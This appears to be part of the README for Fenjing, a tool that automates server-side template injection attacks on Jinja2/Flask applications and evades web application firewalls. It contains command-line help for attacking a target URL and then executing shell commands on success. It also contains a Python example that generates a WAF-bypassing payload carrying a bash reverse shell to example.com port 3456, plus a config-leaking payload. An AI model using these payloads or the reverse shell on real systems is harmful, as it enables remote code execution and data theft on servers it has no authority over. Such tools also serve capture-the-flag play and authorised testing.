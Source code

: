 ```

Usage: python -m fenjing crack-path [OPTIONS]

  攻击指定的路径

Options:
  --no-verify-ssl                 不验证SSL证书
  --proxy TEXT                    请求时使用的代理
  --extra-data TEXT               请求时的额外POST参数，如a=1&b=2
  --extra-params TEXT             请求时的额外GET参数，如a=1&b=2
  --cookies TEXT                  请求时使用的Cookie
  --header TEXT                   请求时使用的Headers
  --user-agent TEXT               请求时使用的User Agent
  -u, --url TEXT                  需要攻击的URL  [required]
  --interval FLOAT                每次请求的间隔
  --tamper-cmd TEXT               在发送payload之前进行编码的命令，默认不进行额外操作
  --waf-keyword TEXT              手动指定waf页面含有的关键字，此时不会自动检测waf页面的哈希等。可指定多个关键字
  --detect-waf-keywords DETECTWAFKEYWORDS
                                  是否枚举被waf的关键字，需要额外时间，默认为none, 可选full/fast
  --environment TEMPLATEENVIRONMENT
                                  模板的执行环境，默认为不带flask全局变量的普通jinja2
  --replaced-keyword-strategy REPLACEDKEYWORDSTRATEGY
                                  WAF替换关键字时的策略，可为avoid/ignore/doubletapping
  --detect-mode DETECTMODE        分析模式，可为accurate或fast
  -e, --exec-cmd TEXT             成功后执行的shell指令，不填则成功后进入交互模式
  --help                          Show this message and exit.

Usage: python -m fenjing webui [OPTIONS]

  启动webui

Options:
  -h, --host TEXT                 需要监听的host, 默认为127.0.0.1
  -p, --port INTEGER              需要监听的端口, 默认为11451
  --open-browser / --no-open-browser
                                  是否自动打开浏览器
  --help                          Show this message and exit.
```

### Use as a python library

[example.py](example.py)

```python
from fenjing import exec_cmd_payload, config_payload
import logging
logging.basicConfig(level = logging.INFO)

def waf(s: str):
    blacklist = [
        "config", "self", "g", "os", "class", "length", "mro", "base", "lipsum",
        "[", '"', "'", "_", ".", "+", "~", "{{",
        "0", "1", "2", "3", "4", "5", "6", "7", "8", "9",
        "０","１","２","３","４","５","６","７","８","９"
    ]
    return all(word not in s for word in blacklist)

if __name__ == "__main__":
    shell_payload, _ = exec_cmd_payload(waf, "bash -c \"bash -i >& /dev/tcp/example.com/3456 0>&1\"")
    config_payload = config_payload(waf)

    print(f"{shell_payload=}")
    print(f"{config_payload=}")
```